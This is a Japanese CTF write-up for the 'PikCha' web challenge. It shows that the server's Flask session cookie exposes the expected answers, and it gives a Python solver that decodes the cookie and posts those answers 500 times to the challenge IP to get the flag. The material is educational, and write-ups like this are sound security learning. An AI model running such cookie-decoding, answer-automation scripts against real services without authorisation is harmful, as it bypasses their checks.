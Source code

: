 # PikCha

```txt
http://104.197.195.221:8084 http://34.121.84.161:8084
```

## Solution

問題にアクセスすると入力欄と画像が表示されます。

![img1](img/img1.png)

適当な値を入力すると以下のようなリクエストが送られていました。

```http
POST / HTTP/1.1
Host: 104.197.195.221:8084
 ...
Upgrade-Insecure-Requests: 1

guess=7
```

```http
HTTP/1.1 302 FOUND
Server: gunicorn/20.0.4
 ...
Vary: Cookie
Set-Cookie: session=eyJhbnN3ZXIiOlsxMTQsMTA4LDEzOSwyMV0sImNvcnJlY3QiOjAsImltYWdlIjoiLi9zdGF0aWMvY2hhbGwtaW1hZ2VzL0tUZ1RaUGJVaEYuanBnIn0.YGctjA.3lpuJAm6kEeRRunVYS6LnRQ4cXA; HttpOnly; Path=/

```

JWT をデコードしてみると、以下にような内容になっていました。

```json
Headers = {
  "answer": [
    94,
    37,
    87,
    134
  ],
  "correct": 0,
  "image": "./static/chall-images/wcXYabZuNr.jpg"
}

Payload = "`g-�"

Signature = "HQxDaBvpu8AOTB0CojWZrsaUTl4"
```

どうやら、`answer` の値が画像に紐図いていると推測できます。

JWT の脆弱性なども試しましたが、特に突破口は見当たりませんでした。

適当な値を送信していると、`0/500` から　`1/500` と増えた場合がありました。

その時のリクエストを調べてみると、JWT の Headers にある answer の値が順番通りに並ぶように送信すると増加することがわかりました。

なので JWT からポケモンの番号を取得してそれを順番通りに `guess` パラメータに入れて、500回リクエストを送信すると flag を得れるかもしれないと推測します。

ここで以下の Python コードを実行してみます。

すると上手く実行されて、flag が表示されました。

Solver
```python
#!/usr/bin/python3
import requests
import base64
import json

def get_answer(cookie):
    ans = cookie.split('.')[0]
    missing_padding = len(ans) % 4
    if missing_padding:
        ans = ans + '=' * (4 - missing_padding)
    return json.loads(base64.b64decode(ans).decode('ascii'))

r = requests.get('http://34.121.84.161:8084/')
answer = get_answer(r.cookies['session'])

for i in range(500):
    payload = {"guess": ' '.join([str(i) for i in answer['answer']])}
    r = requests.post('http://34.121.84.161:8084/', data=payload, cookies=r.cookies)
    answer = get_answer(r.cookies['session'])

print(r.text)
```

```shell
$ python3 solve.py
UMASS{G0tt4_c4tch_th3m_4ll_17263548}
```

## Flag

flag : `UMASS{G0tt4_c4tch_th3m_4ll_17263548}`